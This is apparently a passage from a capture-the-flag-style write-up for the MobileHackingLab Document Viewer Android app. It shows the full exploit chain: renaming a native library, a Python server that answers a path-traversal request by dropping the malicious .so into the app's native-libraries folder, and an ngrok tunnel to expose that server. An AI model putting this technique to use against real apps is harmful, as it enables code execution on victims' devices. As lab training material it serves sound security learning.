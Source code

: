 We build the apk file and decompile it with apktool to get the compiled binaries. We then rename the binary

``` shell
mv libdocumentviewer.so libdocviewer_pro.so
```

Next we create a python serve in the same location to serve our file. with the path traversal exploit
`../../../../../data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86/libdocviewer_pro.so`.

```python
import os
import urllib
from http.server import BaseHTTPRequestHandler, HTTPServer

class MyHackyServer(BaseHTTPRequestHandler):

    def do_GET(self):
        decoded_path = urllib.parse.unquote(self.path[1:])
        print(f"Decoded Path: {decoded_path}")
        if decoded_path == '../../../../../data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86/libdocviewer_pro.so':
            file_to_serve = 'libdocviewer_pro.so'
            
            if os.path.exists(file_to_serve):
                self.send_response(200)
                self.send_header('Content-Type', 'application/octet-stream')  # Add proper headers
                self.end_headers()
                with open(file_to_serve, 'rb') as file:
                    self.wfile.write(file.read())
            else:
                self.send_response(404)
                self.end_headers()
                print(b"File not found")
        else:
            self.send_response(404)
            self.end_headers()
            print(b"Invalid path")

myServer = HTTPServer(('localhost', 8002), MyHackyServer)
myServer.serve_forever()

```

We fire up the server and use ngrok 

```shell
python serve.py
```

```shell
ngrok http http://localhost:8002
```
